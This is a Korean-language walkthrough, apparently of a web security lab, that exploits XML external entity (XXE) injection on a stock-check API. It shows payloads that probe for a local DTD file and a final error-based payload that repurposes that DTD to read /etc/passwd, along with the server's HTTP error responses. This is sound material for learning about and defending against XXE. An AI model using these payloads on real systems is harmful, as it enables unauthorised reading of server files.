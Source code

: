 # 도전 
1. 재고 체크하는 API `POST /product/stock` 의 바디가 XML로 되어 있다. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```


2. 파일 `/usr/share/yelp/dtd/docbookx.dtd`의 내용을 얻어내는 다음 페이로드를 보내본다. 

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

그러면 다음과 같은 응답이 되돌아 온다. 파일의 XML 구성에 문제가 있는 것으로 보인다. 

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 117

"XML parser exited with error: org.xml.sax.SAXParseException; lineNumber: 4; columnNumber: 3; Premature end of file."
```

참고로 존재하지 않는 경로를 지정하면 다음과 같은 응답이 돌아온다. 이를 통해  `/usr/share/yelp/dtd/docbookx.dtd` 파일은 존재한다는 것을 확신할 수 있다. 

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///non-existence">
%local_dtd;
]>
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 105

"XML parser exited with error: java.io.FileNotFoundException: /non-existence (No such file or directory)"
```

3. 에러를 통해 /etc/passwd의 내용을 알아낼 수 있는 다음 페이로드를 보내본다. 

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

